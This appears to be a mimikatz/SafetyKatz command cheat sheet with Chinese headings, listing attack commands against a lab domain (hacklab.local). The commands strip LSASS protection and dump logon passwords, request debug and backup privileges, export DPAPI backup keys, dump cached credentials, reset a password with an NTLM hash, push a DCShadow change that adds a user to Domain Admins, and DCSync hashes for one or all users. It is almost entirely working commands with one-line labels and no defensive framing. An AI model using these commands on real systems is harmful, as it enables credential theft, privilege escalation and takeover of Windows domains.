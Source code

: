 ```

```
.\SafetyKatz.exe "!+" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords" "exit"
```


# privilege
```
privilege::backup requests the backup privilege (SeBackupPrivilege)
privilege::debug requests the debug privilege (SeDebugPrivilege)
privilege::driver requests the load driver privilege (SeLoadDriverPrivilege)
privilege::id requests a privilege by its id
privilege::name requests a privilege by its name
privilege::restore requests the restore privilege (SeRestorePrivilege)
privilege::security requests the security privilege (SeSecurityPrivilege)
privilege::sysenv requests the system environment privilege (SeSystemEnvironmentPrivilege)
privilege::tcb requests the tcb privilege (SeTcbPrivilege)
```

# lsadump模块

## backupkeys
从域控制器转储DPAPI backup keys
```
mimikatz # lsadump::backupkeys /export
```

## cache
从注册表dump出缓存凭据
```
mimikatz # lsadump::cache
```

## changentlm
可用于更改用户的密码
```
mimikatz # lsadump::changentlm /server:DC.hacklab.local /user:adriane.lena /old:cded5acd2c1fc0f816c63ef317937deb /newpassword:WhatEverYouWant
```

## dcshadow
执行dcshadow攻击

修改组id
```
mimikatz # lsadump::dcshadow /object=optimus /attribute=primaryGroupID /value=512
```

执行修改
```
mimikatz # lsadump::dcshadow /push
```

## dcsync
请求域控同步从而dump出哈希

单个用户
```
mimikatz # lsadump::dcsync /domain:hacklab.local /user:hacklab\Administrator
```

所有用户
```
mimikatz # lsadump::dcsync /domain:hacklab.local /all
```
```